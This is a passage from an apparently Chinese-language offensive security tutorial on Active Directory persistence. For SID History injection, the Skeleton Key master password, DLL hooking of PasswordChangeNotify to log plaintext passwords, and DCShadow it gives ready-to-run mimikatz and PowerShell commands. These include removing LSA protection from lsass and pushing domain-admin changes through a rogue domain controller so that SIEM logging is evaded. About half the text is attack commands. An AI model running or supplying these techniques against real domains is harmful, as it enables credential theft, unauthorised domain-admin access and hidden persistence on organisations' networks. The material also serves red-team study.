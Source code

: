 ### <a class="reference-link" name="10.sid%20history"></a>10.sid history

每个用户帐号都有一个关联的安全标识符SID，作用是跟踪安全主体控制用户连接资源时的访问权限，也就是在域迁移过程中保持域用户的访问权限，如果迁移后用户的SID值改变，系统会将原来的SID添加到迁移后用户的SID History属性中，使迁移后的用户保持原有权限。我们的目的是使用mimikatz将SID History属性添加到任意用户的SID History属性中，以获得管理员权限。

```
privilege::debug
sid::patch  //修复NTDS服务
sid::add /sam:hacker /new:administrator
sid::clear /sam:hacker  //清除SID History
```

### <a class="reference-link" name="11.skeleton%20key"></a>11.skeleton key

将万能密码注入到lsass.exe中，域内所有用户的原密码和万能密码都可以登录，重启后失效。

```
privilege::debug
!+                                          //绕过LSA Protection，需要导入驱动mimidrv.sys文件：https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kuhl_m_kernel.c
!processprotect /process:lsass.exe /remove  //绕过LSA Protection
misc::skeleton
之后可以用域内任意账号登录，万能密码默认为mimikatz

PS：mimikatz绕过cmd，regedit禁用：
privilege::debug
misc::cmd
misc::regedit
misc::taskmgr
```

### <a class="reference-link" name="12.hook%20passwordchangenotify"></a>12.hook passwordchangenotify

修改密码时，lsa会调用passwordfileter检查是否符合复杂性要求，之后调用passwordchangenotify在系统中同步密码。其中函数PasswordChangeNotify在rassfm.dll中。我们注入一个dll文件，hook掉passwordchangenotify，读取密码。

```
使用HookPasswordChange.dll和HookPasswordChangeNotify.ps1（尾部添加Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll –procname lsass）
PowerShell.exe -ExecutionPolicy Bypass -File HookPasswordChangeNotify.ps1    //使用powershell运行脚本
在C:\Windows\Temp\passwords.txt中记录明文密码
```

### <a class="reference-link" name="13.dcshadow"></a>13.dcshadow

防止持久化操作被SIEM等系统记录，伪造一个域控，实行完操作后，将数据同步到真实域控。

```
lsadump::dcshadow /object:CN=dc,CN=Users,DC=lce,DC=com /attribute:primarygroupid/value:512     //使用system权限添加域管 
lsadump::dcshadow /push     //使用域管权限进行域复制，后同
lsadump::dcshadow /object:CN=dc,CN=Users,DC=lce,DC=com /attribute:sidhistory /value:S-1-5-21-771480511-316148334-622873008-500   //sid history后门
```
